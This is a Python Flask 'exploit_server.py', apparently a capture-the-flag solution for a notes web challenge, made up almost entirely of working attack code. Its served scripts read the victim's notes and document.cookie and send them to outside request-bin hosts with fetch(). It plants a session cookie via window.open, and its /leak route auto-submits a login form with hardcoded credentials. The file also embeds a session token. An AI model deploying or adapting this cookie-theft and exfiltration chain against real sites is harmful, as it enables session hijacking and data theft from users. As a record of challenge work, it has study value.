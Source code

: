 
```py
# exploit_server.py
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)


@app.route('/')
def index():
    return '''<script>
window.name=`fetch('/notes').then(res=>res.text()).then(res=>fetch('https://voqudez.request.dreamhack.games/'+document.cookie,{method:'POST',body:JSON.stringify({a:res})}));`;
const leak = window.open("/leak",`document.cookie="session=eyJ1c2VybmFtZSI6IjQ3MDA1Y2NlNzNlOTQ2OTI5NGE0MGZkYTBiMzE4YmNmIn0.ZwGjeQ.0eyulCrarNn7mWCNTv1v62QwGU0;domain=secret-notes.1nf1n1ty.team;path=/profile";window.close()`);
</script>'''

@app.route('/leak')
def leak():
    return '''<script>function sleep(ms) {
  return new Promise((r) => setTimeout(r, ms));
}
function func(doc) {
  document.cookie;
  fetch("https://pfpcgiu.request.dreamhack.games/" + doc.cookie);
}
async function leak() {
  await sleep(10);
  
  const form = document.createElement("form");
  form.setAttribute("method", "POST");
  form.setAttribute("action", "https://secret-notes.1nf1n1ty.team/login");

  const usernameInput = document.createElement("input");
  usernameInput.setAttribute("type", "text");
  usernameInput.setAttribute("name", "username");
  usernameInput.required = true;
  usernameInput.value = "47005cce73e9469294a40fda0b318bcf";
  form.appendChild(usernameInput);

  const passwordInput = document.createElement("input");
  passwordInput.setAttribute("type", "password");
  passwordInput.setAttribute("name", "password");
  passwordInput.value = "47005cce73e9469294a40fda0b318bcf";
  form.appendChild(passwordInput);

  const submitButton = document.createElement("button");
  submitButton.setAttribute("type", "submit");
  form.appendChild(submitButton);

  document.body.appendChild(form);
  form.submit();
}
leak();</script>'''


app.run(host="0.0.0.0", port=80)
```
